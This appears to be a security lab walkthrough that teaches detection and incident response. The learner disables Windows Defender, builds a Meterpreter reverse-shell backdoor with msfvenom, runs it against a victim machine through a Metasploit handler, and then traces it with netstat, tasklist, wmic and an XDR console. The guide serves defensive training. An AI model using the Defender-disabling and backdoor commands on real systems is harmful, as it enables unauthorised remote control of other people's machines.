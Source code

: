 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default PowerShell window, run the following command to disable Defender. 
Remember, our goal here is not bypass endpoint protection.

```PS
Set-MpPreference -DisableRealtimeMonitoring $true
```

Check if Defender is really turned off with (should be False):

```PS
Get-MpComputerStatus | select RealTimeProtectionEnabled
```

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali Linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

```bash
ifconfig
```

![](attachments/warmup_03.png)

Mark the IP address of the Kali Linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

```bash
sudo su -
```

```bash
msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe
```

```bash
ls -l /tmp/beliveme.exe
```

Copy the malware to the share folder accessible by the Victim machine

```bash
cp /tmp/beliveme.exe /mnt/c/temp
```

```bash
ls -l /mnt/c/temp/
```

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

```bash
sudo su -
```

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

```bash
cd \temp
```

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

**TIPP3:** List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

**TIPP4:** List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package

![](attachments/warmup_09.png)

If you look closer, you can find the connection (because we know what to look for) made by our supper evil "beliveme.exe" malware.

![](attachments/warmup_10.png)

List the network connections and look for fully qualified domains. We can get rid of them as very likely they are good ones.

```cmd
netstat -f
```

![](attachments/warmup_11.png)

We can see our connection to the system on port TCP/4444. Lets find the Process ID (PID).
The PID is 5496 (your number will be different!)

```cmd
netstat -naob
```

![](attachments/warmup_12.png)

Dig deeper. Use the "tasklist" command. We can see the loaded DLL's.

```cmd
tasklist /m /fi "pid eq 5496"
```

![](attachments/warmup_13.png)


Check "wmic" to see from where the file was launched. It was launched from the command line as there are no options.

```cmd
wmic process where processid=5496 get commandline
```

![](attachments/warmup_14.png)

We can also find the parent process ID.


```cmd
wmic process get name,parentprocessid,processid | find "5496"
```

![](attachments/warmup_15.png)

```cmd
wmic process get name,parentprocessid,processid | find "1256"
```

![](attachments/warmup_16.png)

### step 4

We can investigate the same with the opensource tools, like SecurityOnion and/or ElasticSearch


### step 5
You can investigate it with a commercial tools as well (e.g. Cisco XDR).
The XDR sees immediately the event and creates an incident.

![](attachments/warmup_30c.png)

Clicking on the incident, we get more details. Like, Vitim endpoint, Local IP, the IP the malware connected to, the file name and the hash of the malware

![](attachments/warmup_31c.png)


The malicious file was automatically sent for dynamic analysis (it's configurable)

![](attachments/warmup_32c.png)


Searching for the hash of the file (beliveme.exe) gives us more tech details. It show immediately , how many endpoints are affected in our organization.
Additionally, the behavior indicators describe, why the file was marked as malicious. 
- Metasploit Payload Detected 
- Artifact flagged as known trojan by Antivirus
- Possible backdoor behavior Detected
- Process uses private IP range for network traffic

![](attachments/warmup_33c.png)

As an analyst/investigator i can:
- Take a forensics snapshot of the memory
- Isolate the endpoint (or snapshot and isolate)
- Move to the Triage group (more logs, strict rules etc.)

![](attachments/warmup_34c.png)

Every stage of the Incident response can logged by the XDR:
- Identification with review, affected hosts, conformation
- Containment with Overview, assets, IPs, domains, URLs, hashes etc
- Eradication with vulnerability remediation, removing malicious content and system restore
- Recovery

![](attachments/warmup_35c.png)

It make sens to collect the netflow (NVZ flow) data at the process level. Not just the SRC/DST IPs and ports are visible, but muc more.
- which process initiated the flow?
- what is the process ID?
- what is the path of the process?
- what is the PID of the parent process?
- what is the parent process name?
- what is the hash of the process?
- How is logged in to the endpoint?

![](attachments/warmup_36c.png)

### step 5
